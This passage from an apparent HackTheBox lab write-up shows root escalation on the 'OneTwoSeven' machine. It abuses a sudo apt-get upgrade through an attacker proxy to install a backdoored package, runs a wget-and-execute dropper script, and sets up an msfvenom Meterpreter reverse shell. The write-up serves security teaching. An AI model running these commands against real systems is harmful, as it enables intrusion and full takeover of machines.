 ```
www-admin-data@onetwoseven:/$ sudo http_proxy=http://10.10.14.23:8080 apt-get upgrade
Reading package lists... Done
Building dependency tree
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  nano
1 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 485 kB of archives.
After this operation, 0 B of additional disk space will be used.
Do you want to continue? [Y/n] y
WARNING: The following packages cannot be authenticated!
  nano
Install these packages without verification? [y/N] y
Get:1 http://packages.onetwoseven.htb/devuan ascii/main amd64 nano amd64 3.0.0 [485 kB]
Fetched 485 kB in 0s (4372 kB/s)
Reading changelogs... Done
debconf: unable to initialize frontend: Dialog
debconf: (Dialog frontend will not work on a dumb terminal, an emacs shell buffer, or without a controlling terminal.)
debconf: falling back to frontend: Readline
(Reading database ... 33940 files and directories currently installed.)
Preparing to unpack .../archives/nano_3.0.0_amd64.deb ...
Unpacking nano (3.0.0) over (2.7.4-1) ...
Setting up nano (3.0.0) ...
Processing triggers for man-db (2.7.6.1-2) ...
```

File has been installed, I can see the backdoored script file:

```
www-admin-data@onetwoseven:/$ ls -l /bin/nano*
-rwxr-xr-x 1 root root 225320 Jan 11  2017 /bin/nano
-r-xr-xr-x 1 root root    130 Apr 21 21:13 /bin/nano_backdoor
```

Next, I'll create a `snowscan.sh` file in the root of my Python webserver:

```
#!/bin/sh
wget http://10.10.14.23/met -O /tmp/met
chmod 777 /tmp/met
/tmp/met
```

Then I generate a Meterpreter payload to connect back to me when it gets executed by the cronjob:

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LPORT=5555 LHOST=10.10.14.23
```

And finally once the cronjob runs, it downloads `snowscan.sh`, executes it and downloads the meterpreter binary so I can get a shell as root:

```
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
```